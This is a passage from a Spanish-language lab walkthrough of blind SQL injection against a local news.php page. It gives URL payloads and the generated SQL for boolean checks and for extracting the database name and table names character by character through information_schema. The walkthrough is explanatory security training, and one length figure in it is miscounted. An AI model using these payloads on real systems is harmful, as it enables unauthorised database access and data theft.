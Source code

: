
**URL:** `http://localhost/news.php?id=1%20AND%201=2`
**URL sin codificar:** `http://localhost/news.php?id=1 AND 1=2`

**SQL Generada:**
```sql
SELECT id FROM blog WHERE id = 1 AND 1=2
```
**Resultado esperado:** ❌ "Artículo No Encontrado" (1=2 siempre es falso)

**✅ Confirmación de Blind SQLi:** Respuestas diferentes confirman la vulnerabilidad.

---

### 3. Extracción del Nombre de la Base de Datos

#### Determinar longitud del nombre de la base de datos:
**URL:** `http://localhost/news.php?id=1%20AND%20LENGTH(database())=1`
**Resultado esperado:** ❌ "No Encontrado"

**URL:** `http://localhost/news.php?id=1%20AND%20LENGTH(database())=15`
**SQL:** `SELECT id FROM blog WHERE id = 1 AND LENGTH(database())=15`
**Resultado esperado:** ✅ "Encontrado" (si 'auditoria_web' tiene 15 caracteres)

#### Extraer caracteres uno por uno:
**URL:** `http://localhost/news.php?id=1%20AND%20SUBSTRING(database(),1,1)='a'`
**SQL:** `SELECT id FROM blog WHERE id = 1 AND SUBSTRING(database(),1,1)='a'`
**Resultado esperado:** ✅ "Encontrado" (primer carácter es 'a')

**URL:** `http://localhost/news.php?id=1%20AND%20SUBSTRING(database(),2,1)='u'`
**SQL:** `SELECT id FROM blog WHERE id = 1 AND SUBSTRING(database(),2,1)='u'`
**Resultado esperado:** ✅ "Encontrado" (segundo carácter es 'u')

---

### 4. Extracción de Información de Tablas

#### Contar número de tablas:
**URL:** `http://localhost/news.php?id=1%20AND%20(SELECT%20COUNT(table_name)%20FROM%20information_schema.tables%20WHERE%20table_schema=database())=2`

**SQL Generada:**
```sql
SELECT id FROM blog WHERE id = 1 AND 
(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database())=2
```
**Resultado esperado:** ✅ "Encontrado" (tenemos 2 tablas: blog y users)

#### Extraer nombres de tablas carácter por carácter:
**URL:** `http://localhost/news.php?id=1%20AND%20SUBSTRING((SELECT%20table_name%20FROM%20information_schema.tables%20WHERE%20table_schema=database()%20LIMIT%201),1,1)='b'`

**SQL Generada:**
```sql
SELECT id FROM blog WHERE id = 1 AND 
SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1),1,1)='b'
```
**Resultado esperado:** ✅ "Encontrado" (primera tabla empieza con 'b' - 'blog')

---